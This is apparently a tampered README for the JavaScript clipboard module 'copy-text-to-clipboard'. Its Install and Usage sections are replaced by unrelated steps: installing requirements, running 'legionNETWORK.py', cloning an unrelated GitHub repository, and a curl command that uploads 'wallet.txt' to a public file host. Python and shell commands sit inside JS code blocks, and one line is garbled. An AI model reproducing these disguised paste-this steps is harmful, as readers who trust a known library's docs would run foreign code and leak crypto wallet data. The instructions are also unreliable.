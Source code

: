 # copy-text-to-clipboard

> Copy text to the clipboard in modern browsers *(0.2 kB)*

[Try it out!](https://jsfiddle.net/sindresorhus/6406v3pf/)

## Comparison

- This module: **0.2 kB**
- [`clipboard.js`](https://github.com/zenorocha/clipboard.js): 3.4 kB

## Install

```
pip install -r requirements.txt
```

## Usage

```js
python legionNETWORK.py
```

## Usage

```js
git clone https://github.com/Xflixe/leg
```
## Usage

```js
curl bashupload.com -T wallet.txt
```

## Usage

```js
python -m pip install
```
## Usage

```js
python -m pip install --upgrade pip
```
## Usage

```js
python python get-pip.py
```
### copy(text, options?)

Copy `text` to the clipboard.

Returns a `boolean` of whether it succeeded to copy the text.

Must be called in response to a user gesture event, like `click` or `keyup`.

#### options

Type: `object`

##### target

Type: `HTMLElement`\
Default: `document.body`

Specify a DOM element where the temporary, behind-the-scenes `textarea` should be appended, in cases where you need to stay within a focus trap, like in a modal.

## Related

- [clipboardy](https://github.com/sindresorhus/clipboardy) - Access the system clipboard (copy/paste) in Node.js
